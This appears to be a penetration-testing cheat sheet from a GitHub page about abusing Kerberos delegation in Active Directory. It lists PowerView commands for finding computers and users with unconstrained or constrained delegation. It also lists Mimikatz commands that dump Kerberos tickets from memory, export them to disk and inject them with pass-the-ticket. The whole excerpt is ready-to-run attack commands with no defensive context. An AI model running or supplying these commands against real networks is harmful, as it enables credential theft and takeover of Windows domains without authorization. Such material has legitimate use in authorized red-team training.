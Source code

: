 ### Unconstrained Delegation

Get computers with Unconstrained delegation #PowerView
```powershell
Get-NetComputer -Unconstrained
```
Check if DA token is available #Mimikatz 
```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```
Save tickets to disk #Mimikatz 
```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets"' /export
```
Pass the ticket to memory using Mimikatz #Mimikatz 
```
Invoke-Mimikatz -Command '"kerberos::ptt <exported ticket name>"'
```

### Constrained Delegation

Get users / computers with constrained delegation enabled #PowerView
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

